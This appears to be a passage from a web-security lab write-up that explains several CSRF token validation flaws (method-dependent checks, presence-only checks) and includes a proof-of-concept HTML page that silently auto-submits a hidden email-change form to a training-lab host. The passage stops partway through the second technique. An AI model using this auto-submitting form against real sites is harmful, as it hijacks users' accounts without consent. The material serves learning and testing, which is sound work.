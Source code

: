 - CSRF token validation relies on the request method.
- CSRF token validation depends on the token's presence.
- CSRF token is not tied to the user session
- CSRF token linked to a non-session cookie.
- CSRF token is replicated within a cookie.

### CSRF token validation relies on the request method

Improper implementation of CSRF token validation, contingent on the request method, can introduce CSRF vulnerabilities. Manipulating the request method enables bypassing the validation process.

**POST Request**

![https://prod-files-secure.s3.us-west-2.amazonaws.com/79b8e813-6109-41a1-851d-5f6aab6a082b/1e830e43-f127-4f6c-978d-525c6a1169ff/Untitled.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/79b8e813-6109-41a1-851d-5f6aab6a082b/1e830e43-f127-4f6c-978d-525c6a1169ff/Untitled.png)

**GET Request Bypass The Validation**

![https://prod-files-secure.s3.us-west-2.amazonaws.com/79b8e813-6109-41a1-851d-5f6aab6a082b/5b975026-2d11-44ce-a723-e4e9cbec075f/Untitled.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/79b8e813-6109-41a1-851d-5f6aab6a082b/5b975026-2d11-44ce-a723-e4e9cbec075f/Untitled.png)

**Proof of Concept — POC**

```html
~~<~~html>
  <body>
    <form action="<https://0aa8000a034e81d681c2033e00ad001c.web-security-academy.net/my-account/change-email>">
      <input type="hidden" name="email" value="test&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

### CSRF token validation depends on the token's presence

If the validation of CSRF tokens relies solely on the token being present without proper verification, it can lead to CSRF vulnerabilities. Here's how:

1. **Token Presence Only:** ◦ If the server merely checks for the existence of a CSRF token without validating its authenticity, attackers can execute a CSRF attack by omitting the token or using an invalid one.
2. **Validation Bypass:** ◦ Attackers might try crafting requests without a valid CSRF token. In the absence of rigorous validation, the server could accept requests lacking the necessary token, enabling unauthorized actions on behalf of the victim.

**The server only validate the `CSRF Token` if it is contained in the request:**

![https://prod-files-secure.s3.us-west-2.amazonaws.com/79b8e813-6109-41a1-851d-5f6aab6a082b/abe8b851-ffbc-4ca2-8f4d-a13190b71caa/Untitled.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/79b8e813-6109-41a1-851d-5f6aab6a082b/abe8b851-ffbc-4ca2-8f4d-a13190b71caa/Untitled.png)

**When we remove it we bypass the validation:**
